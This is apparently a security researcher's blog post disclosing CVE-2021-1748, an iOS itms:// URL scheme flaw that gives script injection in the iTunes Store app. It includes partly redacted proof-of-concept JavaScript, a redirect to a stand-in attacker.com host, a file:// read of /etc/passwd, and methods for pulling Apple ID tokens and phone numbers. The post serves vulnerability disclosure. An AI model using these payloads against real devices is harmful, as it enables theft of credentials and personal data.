 ```yaml
---
layout:	post
title: "Mistuned Part 1: Client-side XSS to Calculator and More"
image: /img/2021-08-04-mistuned-part-i/mistune.png
---
```


Ever since Pointer Authentication Code (PAC) has been introduced, iPhone remained standing for more than two years on various pwn contests until TianfuCup 2020 (Project Zero has reported a remote zero click exploit in 2019). Ant Security and Qihoo 360 used two different bug chains respectively to successfully gained remote code execution with userspace sandbox escape on iPhone 11 with iOS 14.2.

In a series of post, I am going to disclouse the bugs I used for full-chain remote code execution. Born with Generation Z, these bugs were introduced by iOS 3 and iOS 6 respectively, however they were still able to fully bypass various protections on a state-of-the-art mobile phone at the time.

## Client-side XSS from iOS 3

The exploit starts from a malicious page in MobileSafari. Instead of attacking MobileSafari itself, there is a well-known attack surface named URL Schemes or Universal Links. It's the resource locator for Apps. Web pages can open local apps with a formatted URL. In MobileSafari, some built-in Apple apps are trusted unconditionally, including App Store and iTunes. There is no user confirmation before inter-app navigation.

Back to [Pwn2Own 2014](https://www.securityweek.com/mobile-pwn2own-2014-iphone-5s-galaxy-s5-nexus-5-fire-phone-hacked), Jung Hoon Lee used `itmss://` to open arbitrary untrusted website in iTunes, leading to sandbox escape. An additional memory corruption bug was used to gain code execution. It has been assigned to [CVE-2014-8840](https://support.apple.com/en-us/HT204245).

```js
<script>
location = 'itmss://attacker.com';
</script>
```

iOS then introduced a trusted domain list in this URL scheme. Before loading the page, it fetches a configuration from [this URL](https://sandbox.itunes.apple.com/WebObjects/MZInit.woa/wa/initiateSession). The configuration is an XML serialized property list. The hostname of the page must match the following suffix defined in `trustedDomains` field.

```xml
<key>trustedDomains</key>
<array>
  <string>.apple.com.edgesuite.net</string>
  <string>.asia.apple.com</string>
  <string>.corp.apple.com</string>
  <string>.euro.apple.com</string>
  <string>.itunes.apple.com</string>
  <string>.itunes.com</string>
  <string>.icloud.com</string>
```

If the domain matches, iTunes Store will render the page in its `SUWebView`, which is a subclass of the deprecated `UIWebView` in HTTPS. We can't Man-in-the-middle to hijack the HTML, but any XSS in the trusted domain can inject Javascript to this app.

However, after analyzing the following methods, I found another bypass introduced by iOS 3 to achieve client-side XSS.

* `-[SUStoreController handleApplicationURL:]`
* `-[NSURL storeURLType]`
* `-[SUStoreController _handleAccountURL:]`
* `-[SKUIURL initWithURL:]`

This bug could affect a wide range of iOS versions. Part of the PoC is redacted to help protect users that stay below 14.3 due to hardware limitations or at their will.

Given certain combination of parameters, this `itms` URL will force the app to ignore the hostname but load a secondary URL provided by the query string instead: `itms://<redacted>&url=http://www.apple.com`. While the hostname still has to match the trust list, it allows plain text http communications and some domains in the list like `support.mac.com` don't have HSTS, making them vulnerable to interception. Furthermore, according to the disassembly, it trusts arbitrary data URI in addition to the allowed host names: `itms://<redacted>&url=data:text/plain,hello`. This is basically a reflected XSS since it can carry arbitrary inline HTML. 

The app always appends a question mark after the URL, trying to append extra querstring. This breaks base64 encoding, but plain text works just fine. Here's an example of the inter app script inection.

```js
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

The earliest firmware that has the vulnerable code is `Kirkwood7A341`, which was released back to 2009.

`SUWebView` is a subclass of `UIWebView`, so it doesn't have isolated renderer processes. A common misunderstanding for WebView is that only `WKWebView` has JIT optimization. Actually it's controlled by the `dynamic-codesigning` entitlement. iTunes Store has this entitlement to speed up `JSContext` execution, but it happens to create an environment that any working exploit (nomatter the type, JIT or DOM) in MobileSafari works here as well, without concerning about the WebContent sandbox.

Due to the system enforcement, to use `mmap(MAP_JIT)`, the process must be sandboxed. So iTunes Store still has `app-container` after all, but it's got much more access compared to WebContent and even third-party apps. It has been granted even more entitlements for privacy related access like camera and AppStore credentials. It's probably the highest privilege that shellcode could get after `jsc` interpreter had been removed from iOS.

But everything comes with a price. In this context, the exploit has only one chance to get remote code execution, or the app dies. There is no such thing like auto recover for browser tabs. It has a high demand for reliability of the exploit. Besides, this bug redirects from MobileSafari to iTunes Store, leaving significantly observable animation in the UI, so it's not ideal for real attackers.

On iOS 14, iTunes Store is not the only vector. There is a StoreKitUIService app that suffers the same flaw. The only difference is the URL Scheme is `itms-ui`, rather than `itms`. StoreKitUIService is also responsible for delievering OTA enterprise apps. It has almost no UI impact compared to the former. Unfortunately `itms-ui` is not trusted. MobileSafari warns before opening the URL. However, if the payload is delivered through iMessage, AirDrop or some 3rd-party instant messengers, it doesn't matter because such scenarios don't require extra confirmation.

This bug has been assigned to CVE-2021-1748.

## Memory Corruption-free Exploitation

Before getting into the code execution, this client-side XSS is interesting because it allows reading sensitive information and arbitrary app execution.

The `UIWebView` uses obsolete `WebScripting` API to export extra methods to Javascript. `WebScripting` translates Javascript invocations to Objective-C, with known data types automatically converted. There is an `iTunes` namespace in `globalThis` context, which is bunded to an `SUScriptInterface` instance. It has interfaces as follows:

**Fingerprinting**. `iTunes.systemVersion()` and `userAgent` can tell the OS version and the model of SoC, which are useful for adjusting the exploit.

**Apple ID**. `iTunes.primaryAccount?.identifier` is the Apple ID for App Store and iTunes.`primaryiCloudAccount?.identifier` is the iCloud account. Besides, any outgoing http requests, no matter what the domain is, will have extra headers for Apple ID authentication. Even two-factor authentication (2FA) related tokens like `X-Apple-I-MD` and `X-Apple-I-MD-M` are included.

```js
{
  'icloud-dsid': '***',
  'x-apple-store-front': '143465-19,29',
  'x-dsid': '***',
  'x-apple-client-versions': 'iBooks/7.2; iTunesU/3.7.4; GameCenter/??; Podcasts/3.9',
  'x-mme-client-info': '<iPhone12,3> <iPhone OS;14.2;18B92> <com.apple.AppleAccount/1.0 (com.apple.MobileStore/1)>',
  'x-apple-i-timezone': 'GMT+8',
  'x-apple-i-client-time': '2020-11-06T14:46:07Z',
  'x-apple-i-md-rinfo': '17106176',
  'x-apple-adsid': '***',
  'x-apple-connection-type': 'WiFi',
  'x-apple-partner': 'origin.0',
  'x-apple-i-locale': 'zh_CN',
  'x-apple-i-md-m': '***',
  'x-apple-i-md': '***'
}
```

**Disk space**. `iTunes.diskSpaceAvailable()` tells the available disk space of the phone.

**Telephony**. `iTunes.telephony` is a namespace that gives the phone number, operator and provider of the victim. Imagine this, there is no need to ask the number for a person that attractives you in a party. Just AirDrop the bait and wait for response.

**Reading textual files (within the container)**. `SUScriptInterface` has a custom AJAX implementation that doesn't enforce same-origin policy. The only limit is that the hostname must match a certain trusted list (different from the former). The implementation is based on `NSURL` and it doesn't check for the scheme, so I can use file URLs to read a local path, where the hostname will be discarded: `file://r.mzstatic.com/etc/passwd`. Unfortunately the result is `NSString` backed so it doesn't support binary data. After all, this app has no direct access to the full disk because of the sandbox.

**Arbitrary app enumeration and execution**. `iTunes.installedSoftwareApplications` is an array for all the installed apps. It supports launching app by identifier, so here is how I managed to launch calculator from web without touching any modern memory safety mitigations:

```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

![Calculator Demo](/img/2021-08-04-mistuned-part-i/calc.gif)

## Conclusion

CVE-2021-1748 is just anther fresh example of my previous BlackHat Talk [Cross-site Escape](https://i.blackhat.com/eu-20/Thursday/eu-20-Zhou-Cross-Site-Escape-Pwning-MacOS-Safari-Sandbox-The-Unusual-Way.pdf). A client side XSS disarms the sandbox and exposes a bigger attack surface by exposing extra methods to JavaScript. It doesn't even need memory corruption at this point to launch Calculator app.

In the upcoming posts, I'll introduce a secondary UAF bug (CVE-2021-1864) to gain various memory primitives, build arbitrary invocation, and finally bypass both PAC and APRR to load arbitrary shellcode in the context of iTunes Store app.
